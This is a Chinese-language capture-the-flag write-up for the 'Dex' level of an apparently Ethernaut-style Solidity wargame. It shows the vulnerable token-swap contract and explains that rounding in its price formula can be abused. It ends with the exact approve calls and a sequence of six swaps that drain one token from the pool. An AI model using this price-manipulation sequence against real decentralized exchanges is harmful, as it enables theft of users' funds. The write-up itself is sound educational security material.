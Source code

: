 ### 第二十二题 Dex
### 题目
此题目的目标是让您破解下面的基本合约并通过价格操纵窃取资金。一开始您可以得到10个token1和token2。合约以每个代币100个开始。如果您设法从合约中取出两个代币中的至少一个，并让合约得到一个的“坏”的token价格，您将在此级别上取得成功。
### 提示
- 通常，当您使用ERC20代币进行交换时，您必须approve合约才能为您使用代币。为了与题目的语法保持一致，我们刚刚向合约本身添加了approve方法。因此，请随意使用 contract.approve(contract.address, <uint amount>) 而不是直接调用代币，它会自动批准将两个代币花费所需的金额。 请忽略SwappableToken合约。
- 代币的价格是如何计算的？
- approve方法如何工作？
- 您如何批准ERC20 的交易？
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
// 定义Dex合约，继承Ownable合约
    address public token1;
    // 声明token1地址变量
    address public token2;
    // 声明token2地址变量

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
    // 设置token地址，仅所有者可调用
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
    // 添加流动性，仅所有者可调用
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
        // 从消息发送者转移指定数量的token到合约地址
    }

    function swap(address from, address to, uint256 amount) public {
    // 交换token
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        // 确保交换的token是预先设置的token
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        // 确保消息发送者有足够的token进行交换
        uint256 swapAmount = getSwapPrice(from, to, amount);
        // 获取交换价格
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        // 从消息发送者转移指定数量的from token到合约地址
        IERC20(to).approve(address(this), swapAmount);
        // 批准合约转移swapAmount数量的to token
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
        // 从合约地址转移swapAmount数量的to token到消息发送者
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    // 获取交换价格
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
        // 计算交换价格
    }

    function approve(address spender, uint256 amount) public {
    // 批准spender转移指定数量的token
        SwappableToken(token1).approve(msg.sender, spender, amount);
        // 批准spender转移token1
        SwappableToken(token2).approve(msg.sender, spender, amount);
        // 批准spender转移token2
    }

    function balanceOf(address token, address account) public view returns (uint256) {
    // 获取账户的token余额
        return IERC20(token).balanceOf(account);
        // 返回账户余额
    }
}

contract SwappableToken is ERC20 {
// 定义SwappableToken合约，继承ERC20合约
    address private _dex;
    // 声明_dex地址变量

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        // 铸造初始供应量的token给消息发送者
        _dex = dexInstance;
        // 设置_dex地址
    }

    function approve(address owner, address spender, uint256 amount) public {
    // 批准spender转移指定数量的token
        require(owner != _dex, "InvalidApprover");
        // 确保owner不是_dex地址
        super._approve(owner, spender, amount);
        // 调用父类的approve函数
    }
}
```

### 解题思路&过程
1. 在计算每次交换的代币数量时，get_swap_price函数内部使用了除法，而在接收这个结果的这一句，swap_amount定义为uint256类型，由于除法可能产生小数，小数转整型不可避免地存在精度缺失问题，导致了在交换过程中我们可以获取更多代币，从而达到清空题目合约拥有代币数的目的。
2. 授权
``await contract.approve(player,1000)``  
``await contract.approve(contract.address,1000)``  
3. 循环转账  
``token1 = (await contract.token1())``  
``token2 = (await contract.token2())``  
``//第一次交换``  
``await contract.swap(token1,token2,10)``  
``//第二次交换  
await contract.swap(token2,token1,20)  
//第三次交换  
await contract.swap(token1,token2,24)  
//第四次交换  
await contract.swap(token2,token1,30)  
//第五次交换  
await contract.swap(token1,token2,41)  
//第六次交换，注意这里是45就正好，多了会超过最大值报错  
await contract.swap(token2,token1,45)``  
4. 提交
